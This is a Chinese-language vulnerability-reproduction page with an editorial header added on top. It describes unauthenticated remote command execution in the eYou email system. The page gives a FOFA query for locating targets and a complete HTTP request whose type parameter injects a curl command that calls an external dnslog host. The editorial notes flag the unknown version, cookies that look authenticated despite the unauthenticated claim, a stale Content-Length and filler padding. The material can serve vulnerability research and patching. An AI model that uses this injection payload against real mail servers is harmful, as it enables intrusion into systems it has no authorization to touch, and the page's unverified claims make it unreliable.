



# 漏洞复现：亿邮电子邮件系统远程命令执行

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Version explicitly unknown; claims unauthenticated, request includes session/admin-looking cookies
- 证据范围：Same endpoint as48/49 but DNS callback example/screenshots; distinct demonstration evidence not viewed

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Remove huge repeated 凑字数 padding
- Unauthenticated assertion not demonstrated by authenticated-looking copied request
- Content-Length25 stale for displayed longer body; the historical DNS collector does not establish current authorization
- Version remains unknown in this independent observation; do not silently backfill all range facts as tested

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yCJFLqSV4F_kOZlyv38C2A)


**0x01 漏洞描述**  

亿邮电子邮件系统远程命令执行漏洞，攻击者利用该漏洞可在未授权的情况实现远程命令执行，获取目标服务器权限。

**0x02 影响版本**

未知

**0x03 漏洞利用**

```
## FOFA指纹
title="亿邮电子邮件系统"
```


使用 BurpSuite 抓取登录请求包，修改请求包数据，内容如下：

```
## Payload

POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.0.120
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://192.168.0.120/
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: https://192.168.0.120
Connection: close
Cookie: EMPHPSID=vmf3t2aaf2kfr6dttd8q46i7p0; empos=0; emLoginTo=via_acct; emLoginUser=admin
Upgrade-Insecure-Requests: 1

type='|curl gd8oyi.dnslog.cn||'
```







<凑字数>< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
